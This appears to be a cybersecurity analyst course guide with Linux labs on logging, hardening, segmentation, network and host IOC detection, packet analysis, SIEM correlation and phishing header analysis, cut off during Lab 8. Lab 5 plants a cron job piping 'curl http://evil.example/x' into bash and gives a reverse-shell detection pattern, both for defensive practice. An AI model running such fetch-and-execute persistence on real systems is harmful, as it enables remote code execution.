# CompTIA Cybersecurity Analyst (CySA+) Training — Learner Guide

**Provider:** Tertiary Infotech Academy Pte Ltd (UEN: 201200696W)  
**TGS Ref No:** TGS-2024049211  
**WSQ TSC:** Cyber Risk Management (ICT-SNA-4007-1.1)  
**Version:** 1.0  
**Contact:** www.tertiarycourses.com.sg · enquiry@tertiaryinfotech.com · +65 6100 0613

---

## Course Information

Welcome! This Learner Guide takes you click-by-click through every hands-on lab in the WSQ CompTIA Cybersecurity Analyst (CySA+) Training (Course Code: TGS-2024049211).

> **Note:** Most labs run in the free Killercoda Ubuntu Playground (https://killercoda.com/playgrounds/scenario/ubuntu). A few use free web tools or free virtual appliances (noted per lab).

### Learning Outcomes
By the end of this course, learners will be able to:

- Identify cyber security risks, threats, and vulnerabilities, and assess their impact on the organization.
- Develop cyber risk assessments by consolidating insights from business to identify security gaps.
- Identify possible treatments for identified cyber risks, threats, and vulnerabilities.
- Implement endorsed treatment measures to address security gaps and ensure data protection.

### Skills Framework Alignment
**TSC Title:** Cyber Risk Management | **TSC Code:** ICT-SNA-4007-1.1

**Knowledge (K):**
- K1 Cyber risk assessment techniques
- K2 Security risks, threats and vulnerabilities
- K3 Possible treatments of security risks, threats and vulnerabilities
- K4 Required levels of confidentiality, integrity, privacy and personal data protection as well as privacy technologies

**Abilities (A):**
- A1 Develop cyber risk assessment techniques to identify security loopholes and weaknesses in the business
- A2 Design cyber risk assessments by consolidating insights from the business and various functions
- A3 Identify cyber security risks, threats and vulnerabilities, and their impact on the organisation
- A4 Identify possible treatments for cyber risks, threats and vulnerabilities identified
- A5 Implement endorsed treatment and measures to address security gaps

### Course Outline
**Topic 1: Security Operations (33%)**
- OS & software security
- Logging & log ingestion
- Network architecture & segmentation
- Identity & access management
- Encryption & active defence
- Indicators of malicious activity
- Packet & traffic analysis
- Email analysis
- Threat intelligence & MITRE ATT&CK

**Topic 2: Vulnerability Management (30%)**
- Asset discovery & network mapping
- Vulnerability scanning (OpenVAS/ZAP/Nikto)
- Analysing scan results
- CVSS scoring & prioritisation
- Web application vulnerabilities (XSS/SQLi)
- Exploitation with Metasploit
- Patch management & hardening
- Attack surface reconnaissance

**Topic 3: Incident Response and Management (20%)**
- Attack frameworks (Kill Chain, ATT&CK, Diamond)
- Evidence acquisition & chain of custody
- Memory & host forensics
- Log analysis for IR
- Containment & isolation
- IR playbooks & tabletop exercises

**Topic 4: Reporting and Communication (17%)**
- Vulnerability management reporting
- Executive incident reporting
- Security metrics (MTTD/MTTR)
- Compliance reporting (PCI DSS / ISO 27001 / NIST)
- Stakeholder communication & lessons learned

### Assessment
- Written Assessment (SAQ) — 1 hour
- Case Study (CS) — 1 hour
- Format: Open Book (Slides, Learner Guide or approved materials only)
- Competency: minimum 75% attendance and assessed as 'Competent'.

---

## Topic 1: Security Operations
*CompTIA CySA+ CS0-003 exam weighting: 33%. Hands-on Labs 1–10.*

### Lab 1 — Log Ingestion and Time Synchronization

In this lab you will configure a centralised syslog collector with `rsyslog` and synchronise the system clock with `chrony`. Accurate timestamps and reliable log ingestion are the foundation of every SOC: if logs from two hosts disagree on time by 30 seconds, you cannot correlate an attack across them. By the end you will understand log levels, log forwarding, and how time drift is detected and corrected (CySA+ 1.1 — Log ingestion, Time synchronization, Logging levels).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — Install rsyslog and chrony

```bash
apt update && apt install -y rsyslog chrony
systemctl enable --now rsyslog chrony
```

`rsyslog` is the default Linux syslog daemon. `chrony` is the modern NTP client; it converges faster than `ntpd` and tolerates jittery virtual machines.

#### Step 2 — Verify time synchronization

```bash
chronyc tracking
chronyc sources
```

The `Stratum` field tells you how many hops to a reference clock. `Last offset` is how far your clock was off at the last update. Anything bigger than 1 second is a SOC red flag — it can defeat Kerberos and log correlation.

Force an immediate sync:

```bash
chronyc makestep
```

#### Step 3 — Inspect the rsyslog configuration

```bash
cat /etc/rsyslog.conf
ls /etc/rsyslog.d/
```

The main file routes messages by **facility** (auth, cron, kern, mail, daemon, local0–7) and **severity** (emerg, alert, crit, err, warning, notice, info, debug). These are the eight CySA+ "logging levels" you must memorise.

#### Step 4 — Generate logs at each severity

```bash
logger -p user.info "lab1: info message"
logger -p user.warning "lab1: warning message"
logger -p user.err "lab1: error message"
logger -p auth.crit "lab1: simulated critical auth failure"
```

`logger` is the standard tool to inject a syslog message from the shell. Now read them back:

```bash
tail -n 20 /var/log/syslog
grep lab1 /var/log/syslog
```

#### Step 5 — Configure a central collector (loopback test)

Edit `/etc/rsyslog.d/10-collector.conf`:

```bash
cat > /etc/rsyslog.d/10-collector.conf <<'EOF'
module(load="imudp")
input(type="imudp" port="514")
*.* /var/log/central.log
EOF
systemctl restart rsyslog
```

This loads the UDP input module and writes every received message to `/var/log/central.log`. Now forward local messages to ourselves over UDP:

```bash
echo '*.* @127.0.0.1:514' > /etc/rsyslog.d/20-forward.conf
systemctl restart rsyslog
logger -p local0.notice "lab1: forwarded test"
sleep 1
tail /var/log/central.log
```

You have just built a one-host SIEM ingestion pipeline.

#### Step 6 — Confirm receiver is listening

```bash
ss -ulnp | grep :514
```

You should see `rsyslogd` bound to UDP/514.

#### What You Learned

- The 8 syslog severity levels and how to filter on them.
- How to inject messages with `logger` and follow them in `/var/log/syslog`.
- How to centralise logs over UDP/514 with `rsyslog`.
- Why time sync is required before correlation — and how to verify it with `chronyc`.

---

### Lab 2 — OS Hardening and System Process Inspection

In this lab you will audit a Linux host with `lynis`, enable kernel-level auditing with `auditd`, and inspect running processes, kernel modules, and hardware to spot deviations from a baseline. These are exam-blueprint skills under CySA+ 1.1 (Operating system concepts — system hardening, system processes, hardware architecture, file structure).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install hardening and audit tools

```bash
apt update && apt install -y lynis auditd
```

`lynis` is a free CIS-style hardening scanner. `auditd` is the Linux audit subsystem that records syscall-level events.

#### Step 2 — Inspect the file structure and configuration locations

```bash
ls /etc | head
ls /var/log
ls /proc/sys/kernel | head
```

Cyber analysts must know **where configuration lives**:

- `/etc` — system configuration files
- `/var/log` — log files
- `/proc/sys` and `/sys` — kernel tunables
- `~/.ssh`, `~/.bash_history` — per-user artefacts

#### Step 3 — Enumerate processes (CySA+ "system processes")

```bash
ps -ef --forest | head -30
ps -eo pid,user,%cpu,%mem,etime,cmd --sort=-%cpu | head
```

Look for unexpected parents — e.g. `bash` spawned by `httpd` is a classic web-shell indicator.

List open network sockets and which process owns them:

```bash
ss -tulnp
```

#### Step 4 — Inspect the hardware architecture

```bash
lscpu
lsmem 2>/dev/null || free -h
lspci 2>/dev/null | head
uname -a
```

CySA+ expects you to know `x86_64` vs ARM, CPU virtualization flags, and how to read `uname` for kernel version (which CVEs depend on).

#### Step 5 — Run a Lynis hardening audit

```bash
lynis audit system --quick
```

When it finishes, scroll to **Suggestions** and **Hardening index**. Common findings:

- SSH `PermitRootLogin` should be `no`
- Disable unused filesystems (cramfs, freevxfs)
- Enable process accounting

Read the full report:

```bash
less /var/log/lynis.log
```

#### Step 6 — Enable auditd and watch a sensitive file

```bash
systemctl enable --now auditd
auditctl -w /etc/passwd -p wa -k passwd_changes
```

`-w` adds a watch, `-p wa` records writes and attribute changes, `-k` tags events with a key. Now trigger an event:

```bash
echo "# test" >> /etc/passwd
ausearch -k passwd_changes -i | tail
```

You should see who, when, and which syscall touched the file.

#### Step 7 — Apply a quick hardening control

Disable an unused service and verify:

```bash
systemctl list-unit-files --state=enabled | head
systemctl disable --now cron 2>/dev/null
systemctl status cron
```

In production you would also: enable a host firewall (Lab 24), set `umask 027`, and configure `/etc/login.defs` password policy.

#### What You Learned

- Where Linux configuration, logs, and kernel tunables live.
- How to enumerate processes, sockets, hardware, and kernel.
- How to run a free CIS-style audit with `lynis`.
- How to write an `auditd` rule and read the resulting events with `ausearch`.

---

### Lab 3 — Network Segmentation and Zero Trust

In this lab you will build two isolated network "zones" using Linux network namespaces, then enforce a deny-by-default policy between them with `iptables`. This is a hands-on model of the segmentation, SDN, SASE, and Zero Trust concepts in CySA+ 1.1 (Network architecture, Segmentation, Zero trust).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — Why segmentation?

A flat network lets ransomware pivot from any compromised host to every other. Segmentation puts hosts in zones (DMZ, user, server, OT) and a firewall between each zone. **Zero Trust** goes further: every connection is authenticated and authorised even inside the perimeter — there is no "trusted internal".

#### Step 2 — Create two zones with network namespaces

```bash
ip netns add zone-a
ip netns add zone-b
ip link add veth-a type veth peer name veth-b
ip link set veth-a netns zone-a
ip link set veth-b netns zone-b
ip -n zone-a addr add 10.10.1.1/24 dev veth-a
ip -n zone-b addr add 10.10.1.2/24 dev veth-b
ip -n zone-a link set veth-a up
ip -n zone-b link set veth-b up
ip -n zone-a link set lo up
ip -n zone-b link set lo up
```

Two isolated network stacks now share a wire. Test connectivity:

```bash
ip netns exec zone-a ping -c2 10.10.1.2
```

#### Step 3 — Apply a deny-by-default policy in zone-b

```bash
ip netns exec zone-b iptables -P INPUT DROP
ip netns exec zone-b iptables -P OUTPUT DROP
ip netns exec zone-b iptables -A INPUT  -i lo -j ACCEPT
ip netns exec zone-b iptables -A OUTPUT -o lo -j ACCEPT
```

Re-test from zone-a:

```bash
ip netns exec zone-a ping -W2 -c2 10.10.1.2
```

All traffic is now blocked — this is the segmentation enforcement point.

#### Step 4 — Allow only one explicit flow (Zero Trust style)

Permit only SSH (TCP/22) from zone-a, and only an established response:

```bash
ip netns exec zone-b iptables -A INPUT  -p tcp --dport 22 -s 10.10.1.1 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
ip netns exec zone-b iptables -A OUTPUT -p tcp --sport 22 -d 10.10.1.1 -m conntrack --ctstate ESTABLISHED -j ACCEPT
```

ICMP is still blocked, but a TCP probe to port 22 will reach the host:

```bash
apt install -y netcat-openbsd
ip netns exec zone-b nc -l -p 22 &
ip netns exec zone-a nc -zv 10.10.1.2 22
```

You now have one explicitly allowed flow and nothing else — the essence of Zero Trust segmentation.

#### Step 5 — Map the model to CySA+ vocabulary

| CySA+ concept | What you built | |---|---| | On-premises | Both namespaces on local host | | Network segmentation | Two namespaces with separate stacks | | Zero Trust | Deny-by-default + per-flow allow rule | | SASE / SDN | The policy is software-defined, not wired | | Microsegmentation | Per-port allow at the workload edge |

#### Step 6 — Clean up

```bash
ip netns del zone-a
ip netns del zone-b
```

#### What You Learned

- How to build two isolated network zones with `ip netns`.
- How `iptables` enforces a segmentation boundary.
- How a deny-by-default + per-flow allow list maps to Zero Trust.
- The CySA+ vocabulary (segmentation, SASE, SDN, ZTNA) in concrete commands.

---

### Lab 4 — Detecting Malicious Network Activity

In this lab you will generate and detect several network-based indicators of compromise: port scans, beaconing, unusual traffic spikes, and activity on unexpected ports. These are exam-blueprint items under CySA+ 1.2 (Network-related indicators of malicious activity).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install tools

```bash
apt update && apt install -y tcpdump nmap netcat-openbsd curl
```

#### Step 2 — Detect a port scan (scans/sweeps)

In terminal 1, start a capture:

```bash
tcpdump -i any -nn 'tcp[tcpflags] & (tcp-syn) != 0 and not tcp[tcpflags] & tcp-ack != 0' -c 30 &
```

This BPF filter shows only SYN packets without ACK — the signature of a TCP connect or SYN scan.

In the same terminal, run an Nmap scan against localhost:

```bash
nmap -sS -p 1-1000 127.0.0.1
```

You will see dozens of SYN attempts in the capture — the smoking gun of a scan.

#### Step 3 — Detect beaconing (regular C2 callbacks)

Beaconing is malware checking in with its command-and-control server on a regular cadence. Simulate it:

```bash
for i in {1..6}; do curl -s -o /dev/null http://example.com; sleep 5; done &
```

Capture every connection to port 80 and time-stamp it:

```bash
tcpdump -i any -nn -ttt 'tcp port 80 and tcp[tcpflags] & tcp-syn != 0' -c 6
```

`-ttt` prints the delta between packets. A perfectly periodic interval (every 5.000 s here) is the classic beaconing pattern. Real C2 jitters the interval, but the average is still detectable.

#### Step 4 — Detect activity on an unexpected port

Spawn a listener on an unusual port:

```bash
nc -l -p 31337 &
nc -zv 127.0.0.1 31337
```

Find it from a baseline-deviation viewpoint:

```bash
ss -tulnp | grep -vE ':(22|53|80|443|123)\s'
```

Anything not on a sanctioned port is a candidate for investigation. Port 31337 is a well-known "elite" attacker port and the canonical example of "activity on unexpected ports".

#### Step 5 — Detect a traffic spike (bandwidth consumption)

Generate a burst of traffic:

```bash
for i in {1..100}; do curl -s -o /dev/null http://example.com & done; wait
```

Measure per-interface bytes:

```bash
cat /proc/net/dev | column -t
```

In production a NetFlow collector or `iftop`/`nethogs` reveals top talkers; a sudden 10× jump on one host is a data-exfiltration red flag.

#### Step 6 — Detect irregular peer-to-peer / rogue device patterns

ARP sweeps reveal rogue devices and lateral-movement reconnaissance:

```bash
ip neigh
arp -n 2>/dev/null
```

Repeated ARP queries for the entire /24 from one source is a host enumeration attempt.

#### Step 7 — Clean up background jobs

```bash
kill %1 %2 2>/dev/null; jobs
```

#### What You Learned

- BPF filters for SYN-only packets → detecting scans.
- Using `tcpdump -ttt` to spot **beaconing** intervals.
- Identifying activity on **unexpected ports** with `ss`.
- Recognising **bandwidth spikes** and ARP-based **rogue device** indicators.

---

### Lab 5 — Host-Based IOC Hunting

In this lab you will hunt host-level indicators of compromise: unauthorised processes, unauthorised scheduled tasks, new accounts, file-system anomalies, and abnormal CPU/memory consumption. These are exam-blueprint items under CySA+ 1.2 (Host-related, Application-related, and Other indicators).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — Install tools

```bash
apt update && apt install -y auditd procps psmisc inotify-tools
```

#### Step 2 — Baseline current state

You cannot spot the abnormal without first knowing the normal.

```bash
ps -ef > /tmp/baseline_ps.txt
ss -tulnp > /tmp/baseline_ss.txt
crontab -l > /tmp/baseline_cron.txt 2>/dev/null; cat /etc/crontab >> /tmp/baseline_cron.txt
cut -d: -f1 /etc/passwd > /tmp/baseline_users.txt
wc -l /tmp/baseline_*.txt
```

#### Step 3 — Simulate unauthorised user creation (Application-related: "Introduction of new accounts")

```bash
useradd -m attacker
diff /tmp/baseline_users.txt <(cut -d: -f1 /etc/passwd)
```

The diff immediately surfaces the unauthorised account.

#### Step 4 — Detect a malicious scheduled task (Host-related: "Unauthorized scheduled tasks")

```bash
(crontab -l 2>/dev/null; echo "*/5 * * * * curl -s http://evil.example/x | bash") | crontab -
diff /tmp/baseline_cron.txt <(crontab -l)
```

This is exactly what a persistence-stage attacker does.

#### Step 5 — Detect abnormal process / CPU consumption (Host-related: "Processor consumption")

Spawn a CPU-burner that mimics a coinminer:

```bash
yes > /dev/null &
ps -eo pid,user,%cpu,%mem,cmd --sort=-%cpu | head
```

The `yes` process now dominates CPU. In a real hunt you would correlate this with the parent process and a hash of the executable (Lab 9).

#### Step 6 — Detect file-system anomalies (Host-related: "File system changes or anomalies")

Watch a sensitive directory for unexpected writes:

```bash
inotifywait -m -r -e create,modify,delete /etc 2>/dev/null &
echo "x" > /etc/.evil
sleep 1
```

You will see the create event for `.evil`. Hidden dotfiles in `/etc`, `/tmp`, or `/dev/shm` are classic indicators.

#### Step 7 — Detect malicious processes via parent / command line (Host-related: "Malicious processes")

A reverse shell often has `bash` as a child of a network listener:

```bash
ps -ef | awk '$3==1 && $NF ~ /sh$/ {print}'
ps -eo pid,ppid,user,cmd | grep -E 'nc|bash -i|/dev/tcp' | grep -v grep
```

Anything matching `bash -i`, `/dev/tcp/`, or netcat with a remote host is a high-confidence IOC.

#### Step 8 — Detect unauthorised privilege escalation

```bash
grep -E 'sudo|su\b' /var/log/auth.log | tail
awk -F: '($3==0){print $1}' /etc/passwd
find / -perm -4000 -type f 2>/dev/null | head
```

Multiple UID-0 entries in `/etc/passwd`, new SUID binaries, or a flood of failed `sudo` attempts all qualify as "Unauthorized privileges".

#### Step 9 — Clean up

```bash
kill %1 %2 2>/dev/null
crontab -r
userdel -r attacker 2>/dev/null
rm -f /etc/.evil
```

#### What You Learned

- The value of a baseline before hunting.
- How to detect new accounts, cron persistence, CPU abuse, file-system drops, suspicious process trees, and privilege escalation — each mapped to a CySA+ 1.2 indicator.

---

### Lab 6 — Packet Capture for Threat Hunting

In this lab you will capture live traffic with `tcpdump`, then perform analyst-level extraction with `tshark`: pulling HTTP host headers, DNS queries, and TLS SNI fields out of a pcap. These are exam-blueprint skills under CySA+ 1.3 (Packet capture — Wireshark, tcpdump).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground



#### Step 1 — Install tools

```bash
apt update && apt install -y tcpdump tshark curl dnsutils
```

When prompted by tshark, answer "No" — non-root packet capture is not needed inside Killercoda.

#### Step 2 — Capture a known-traffic sample to a pcap

```bash
tcpdump -i any -nn -w /tmp/sample.pcap -G 10 -W 1 &
sleep 1
curl -s https://example.com > /dev/null
dig +short google.com
curl -s http://neverssl.com > /dev/null
wait
ls -lh /tmp/sample.pcap
```

`-w` writes a pcap, `-G 10 -W 1` rotates after 10 seconds and stops.

#### Step 3 — Extract DNS queries from the pcap

```bash
tshark -r /tmp/sample.pcap -Y 'dns.flags.response==0' -T fields -e dns.qry.name | sort -u
```

In a threat hunt this is how you spot DGA-style randomised domains, DNS tunnelling, or queries to known-bad domains.

#### Step 4 — Extract HTTP host headers and URIs

```bash
tshark -r /tmp/sample.pcap -Y http.request -T fields -e http.host -e http.request.uri
```

Cleartext HTTP requests reveal command-and-control URLs, downloaded second stages, and exfiltration endpoints.

#### Step 5 — Extract TLS SNI (server name indicator)

```bash
tshark -r /tmp/sample.pcap -Y 'tls.handshake.type==1' -T fields -e tls.handshake.extensions_server_name
```

Even when payloads are encrypted, the SNI in the ClientHello tells you which host the client tried to reach — the single most useful field for TLS-era hunting.

#### Step 6 — Top talkers / conversations

```bash
tshark -r /tmp/sample.pcap -q -z conv,ip | head -20
```

The output ranks IP pairs by bytes. A workstation talking 500 MB to an unfamiliar IP is a candidate exfiltration channel.

#### Step 7 — Apply a display filter while sniffing live

```bash
tshark -i any -Y 'dns and ip.dst==8.8.8.8' -c 5
```

Display filters (Wireshark-style) are richer than BPF; they can match application-layer fields like `http.user_agent` or `dns.qry.name contains "tor"`.

#### Step 8 — Hunt a specific IOC across a pcap

Imagine your threat-intel feed flags `93.184.216.34`:

```bash
tshark -r /tmp/sample.pcap -Y 'ip.addr==93.184.216.34' -T fields -e frame.time -e ip.src -e ip.dst -e _ws.col.Protocol
```

You now have every packet, every protocol, every timestamp touching that IP — directly feeding the incident timeline (Lab 27).

#### What You Learned

- How to capture to a rotating pcap with `tcpdump`.
- How to extract DNS, HTTP, and TLS SNI fields with `tshark`.
- How to rank top talkers and pivot on a specific IOC.
- The CySA+ 1.3 muscle memory for any packet-capture exam question.

---

### Lab 7 — SIEM Log Correlation

In this lab you will play the role of a SIEM: ingesting raw logs from multiple sources, normalising them, and correlating fields to detect a brute-force-then-success login pattern. You will use the universal Unix data-pipeline trio — `grep`, `awk`, `jq` — which is enough to prototype any SOAR / SIEM rule before deploying it to Splunk or Elastic. (CySA+ 1.3 — SIEM, SOAR, Log analysis/correlation.)

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Install tools and seed sample logs

```bash
apt update && apt install -y jq
mkdir -p /tmp/lab7 && cd /tmp/lab7

cat > auth.log <<'EOF'
2026-05-13T08:00:01 host1 sshd[1001]: Failed password for root from 203.0.113.7 port 5001 ssh2
2026-05-13T08:00:02 host1 sshd[1002]: Failed password for root from 203.0.113.7 port 5002 ssh2
2026-05-13T08:00:03 host1 sshd[1003]: Failed password for root from 203.0.113.7 port 5003 ssh2
2026-05-13T08:00:04 host1 sshd[1004]: Failed password for root from 203.0.113.7 port 5004 ssh2
2026-05-13T08:00:05 host1 sshd[1005]: Failed password for root from 203.0.113.7 port 5005 ssh2
2026-05-13T08:00:06 host1 sshd[1006]: Accepted password for root from 203.0.113.7 port 5006 ssh2
2026-05-13T08:00:30 host1 sshd[1010]: Failed password for alice from 198.51.100.4 port 6001 ssh2
EOF

cat > web.log <<'EOF'
2026-05-13T08:00:07 203.0.113.7 GET /admin 200
2026-05-13T08:00:08 203.0.113.7 POST /upload.php 200
2026-05-13T08:01:00 198.51.100.4 GET / 200
EOF
```

#### Step 2 — Extract structured fields with awk (parsing)

```bash
awk '/Failed password/ {print $1, $(NF-3)}' auth.log
```

Output: timestamp + source IP. This is the **parsing** layer of any SIEM — turning unstructured text into fields.

#### Step 3 — Count failures per IP (aggregation)

```bash
grep "Failed password" auth.log | awk '{print $(NF-3)}' | sort | uniq -c | sort -nr
```

This is the core SIEM aggregation: `5  203.0.113.7`, `1  198.51.100.4`. Anything above your threshold (e.g. 5 in 60 s) becomes a candidate alert.

#### Step 4 — Correlate failed brute-force with successful login (rule logic)

```bash
bad_ip=$(grep "Failed password" auth.log | awk '{print $(NF-3)}' | sort | uniq -c | awk '$1>=5{print $2}')
echo "Suspect IP: $bad_ip"
grep "Accepted" auth.log | grep "$bad_ip"
```

If the same IP that produced ≥ 5 failures ever produces an `Accepted` — that is a confirmed credential-stuffing success. This is exactly how Splunk/Elastic correlation rules work.

#### Step 5 — Pivot to a second data source (web logs)

```bash
grep "$bad_ip" web.log
```

We now know the attacker authenticated and immediately hit `/admin` and uploaded a file — likely a web shell.

#### Step 6 — Work with structured JSON logs (jq)

Suricata, Zeek, AWS CloudTrail, and most modern tools emit JSON. Try `jq`:

```bash
cat > events.json <<'EOF'
{"ts":"2026-05-13T08:00:01","src":"203.0.113.7","event":"ssh_fail","user":"root"}
{"ts":"2026-05-13T08:00:06","src":"203.0.113.7","event":"ssh_success","user":"root"}
{"ts":"2026-05-13T08:00:30","src":"198.51.100.4","event":"ssh_fail","user":"alice"}
EOF

jq -r 'select(.event=="ssh_fail") | .src' events.json | sort | uniq -c
jq -r 'select(.event=="ssh_success") | "\(.ts) \(.src) \(.user)"' events.json
```

#### Step 7 — Build a one-line "detection rule"

```bash
join -1 1 -2 1 \
  <(jq -r 'select(.event=="ssh_fail") | .src' events.json | sort -u) \
  <(jq -r 'select(.event=="ssh_success") | .src' events.json | sort -u)
```

Any IP printed is on **both** sides — failed AND succeeded. That is a brute-force-success in one shell line.

#### What You Learned

- Parse, aggregate, and correlate logs across multiple sources.
- Build a brute-force-then-success detection by hand — the algorithm under every SIEM "use case".
- Work with both unstructured syslog and structured JSON events.
- Move from raw log to actionable alert without leaving the shell.

---

### Lab 8 — Email Header Analysis (SPF/DKIM/DMARC)

In this lab you will analyse an email header for impersonation indicators and inspect the three authentication standards — SPF, DKIM, and DMARC — that determine whether a sender is forging the From address. These are exam-blueprint items under CySA+ 1.3 (Email analysis — Header, Impersonation, DKIM, DMARC, SPF, Embedded links).

Run all commands on the Killercoda Ubuntu Playground: https://killercoda.com/playgrounds/scenario/ubuntu

**Environment:** Killercoda + Web (MXToolbox)

#### Step 1 — Install DNS tools

```bash
apt update && apt install -y dnsutils
```

#### Step 2 — Look up an SPF record

SPF lists the IPs/hosts allowed to send mail for a domain. It is a DNS TXT record starting with `v=spf1`.

```bash
dig +short TXT google.com | grep spf1
dig +short TXT microsoft.com | grep spf1
```

Read a record like `v=spf1 include:_spf.google.com ~all`:

- `include:` — another SPF record to inherit
- `~all` — softfail anything else
- `-all` — hard reject anything else (stronger)

#### Step 3 — Look up DKIM and DMARC

DKIM signatures live at a selector subdomain (e.g. `s1._domainkey.example.com`). DMARC policy lives at `_dmarc.example.com`:

```bash
dig +short TXT _dmarc.google.com
dig +short TXT _dmarc.paypal.com
```

Read a DMARC record like `v=DMARC1; p=reject; rua=mailto:...`:

- `p=none` — monitor only
- `p=quarantine` — junk folder
- `p=reject` — bounce the mail (strongest)

#### Step 4 — Analyse a suspicious raw header

Save the following spear-phishing-style header:

```bash
cat > /tmp/header.eml <<'EOF'
Return-Path: <alerts@secur1ty-paypal.com>
Received: from mta-bad.example (mta-bad.example [203.0.113.99])
        by mx.gmail.com with ESMTPS
        Mon, 13 May 2026 08:00:00 +0000
Received: from desktop-pc (unknown [10.0.0.99])
        by mta-bad.example
        Mon, 13 May 2026 07:59:50 +0000
From: "PayPal Security" <service@paypal.com>
Reply-To: refund-team@secur1ty-paypal.com
To: victim@example.org
Subject: Urgent: Confirm your account
Authentication-Results: mx.gmail.com;
  spf=fail (sender IP is 203.0.113.99) smtp.mailfrom=secur1ty-paypal.com;
  dkim=none header.i=@paypal.com;
  dmarc=fail (p=REJECT sp=REJECT dis=NONE) header.from=paypal.com
EOF
```

Spot the indicators (CySA+ "Impersonation"):

```bash
grep -E '^(From|Return-Path|Reply-To|Received|Authentication-Results)' /tmp/header.eml
```

Red flags:

- **From** = `paypal.com` but **Return-Path** = `secur1ty-paypal.com` (homograph / lookalike).
- **Reply-To** points to the attacker domain, not the brand.
- **Received** chain starts at `desktop-pc` 10.0.0.99 — not a corporate MTA.
- **Authentication-Results** = `spf=fail`, `dkim=none`, `dmarc=fail`.

Each row in `Authentication-Results` is a separate verdict; all three failing is a confirmed forgery.

#### Step 5 — Trace the `Received` chain to find the true origin

`Received` headers are stacked top-down; the **lowest** one is the original. Print them in order:

```bash
tac /tmp/header.eml | grep -E '^Received'
```

The earliest hop `desktop-pc [10.0.0.99]` is the actual sender — a residential PC, not PayPal infrastructure.

#### Step 6 — Check embedded links (CySA+ "Obfuscated links")

Phish emails hide the real destination behind plausible link text. Pull every URL:

```bash
cat > /tmp/body.txt <<'EOF'
Click here to verify: https://paypa1.com.secur1ty-paypal.com/login?u=victim
Or: <a href="http://203.0.113.42/p">https://www.paypal.com</a>
EOF

grep -Eoi 'https?://[^"<>[:space:]]+' /tmp/body.txt
```

Inspect for:

- Lookalike domains (`paypa1` with a "1" instead of an "l")
